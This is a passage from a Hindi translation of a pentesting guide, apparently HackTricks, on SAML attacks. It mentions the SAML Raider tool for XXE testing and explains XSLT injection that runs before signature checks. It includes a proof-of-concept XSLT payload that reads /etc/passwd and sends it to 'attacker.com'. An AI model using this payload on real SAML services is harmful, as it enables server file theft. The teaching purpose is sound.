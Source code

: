 ```markup
[...]
```
### टूल

आप Burp एक्सटेंशन [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) का उपयोग करके SAML अनुरोध से POC उत्पन्न करने के लिए कर सकते हैं ताकि संभावित XXE संवेदनशीलताओं के लिए परीक्षण किया जा सके।

इस वार्ता को भी देखें: [https://www.youtube.com/watch?v=WHn-6xHL7mI](https://www.youtube.com/watch?v=WHn-6xHL7mI)

## XSLT via SAML

XSLT के बारे में अधिक जानकारी के लिए जाएँ:

{% content-ref url="../xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

Extensible Stylesheet Language Transformation (XSLT) एक Turing-complete भाषा है जो XML दस्तावेजों को HTML, JSON, या PDF जैसे अन्य दस्तावेज प्रकारों में परिवर्तित करने के लिए है। यहाँ एक महत्वपूर्ण पहलू यह है कि **हमले के सफल होने के लिए एक वैध हस्ताक्षर की आवश्यकता नहीं है**। इसका कारण यह है कि **XSLT परिवर्तन डिजिटल हस्ताक्षर की सत्यापन के लिए प्रक्रिया किए जाने से पहले होता है**। मूल रूप से, हमें हमले को प्रदर्शन करने के लिए एक हस्ताक्षरित SAML प्रतिक्रिया की आवश्यकता है, लेकिन हस्ताक्षर स्व-हस्ताक्षरित या अमान्य हो सकता है।

![xslt](https://epi052.gitlab.io/notes-to-self/img/saml/xslt.png)

यहाँ आप इस प्रकार की संवेदनशीलताओं के लिए एक **POC** पा सकते हैं, इस खंड की शुरुआत में उल्लिखित hacktricks पृष्ठ पर आप पेलोड्स के लिए खोज सकते हैं।
```markup
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
...
<ds:Transforms>
<ds:Transform>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="doc">
<xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
<xsl:variable name="escaped" select="encode-for-uri($file)"/>
<xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
<xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
<xsl:value-of select="unparsed-text($exploitUrl)"/>
</xsl:template>
</xsl:stylesheet>
</ds:Transform>
</ds:Transforms>
...
</ds:Signature>
```
### उपकरण
